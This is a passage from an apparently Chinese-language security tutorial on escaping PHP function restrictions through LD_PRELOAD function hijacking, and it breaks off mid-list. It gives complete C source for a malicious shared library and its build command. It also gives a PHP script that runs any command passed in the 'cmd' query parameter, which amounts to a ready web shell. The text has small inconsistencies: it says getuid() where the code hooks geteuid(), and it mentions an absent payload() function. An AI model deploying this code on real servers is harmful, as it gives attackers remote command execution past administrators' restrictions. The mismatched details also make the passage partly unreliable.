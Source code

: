 首先编写 test.c，劫持 getuid() 函数，获取 LD_PRELOAD 环境变量并预加载恶意的共享库，再删除环境变量 LD_PRELOAD，最后执行由 EVIL_CMDLINE 环境变量获取的系统命令



```php
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int geteuid() {
        const char* cmdline = getenv("EVIL_CMDLINE");
        if (getenv("LD_PRELOAD") == NULL) { return 0; }
        unsetenv("LD_PRELOAD");
        system(cmdline);
}
```

当这个共享库中的 getuid() 被调用时，尝试加载 payload() 函数执行命令。

接着用以下语句编译 C 文件为共享对象文件：



```c
gcc -shared -fPIC test.c -o test.so
```

最后编写 test.php：



```php
<?php
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```

这里接受 3 个参数，一是 cmd 参数，待执行的系统命令；二是 outpath 参数，保存命令执行输出结果的文件路径，便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点；三是 sopath 参数，指定劫持系统函数的共享对象的绝对路径。

这里通过 putenv() 函数将 LD_PRELOAD 环境变量设置为恶意的 test.so、将自定义的 EVIL_CMDLINE 环境变量赋值为要执行的命令；然后调用 mail() 函数触发 sendmail()，再通过 sendmail() 触发 getuid() 从而使恶意的 test.so 被加载执行；最后再输出内容到页面上并删除临时存放命令执行结果的文件。

访问 test.php，输入相应的参数即可执行成功

### 劫持启动进程 

第一种方法是劫持 getuid()，是较为常用的方法，但存在缺陷：

- 目标 Linux 未安装或为启用 sendmail；
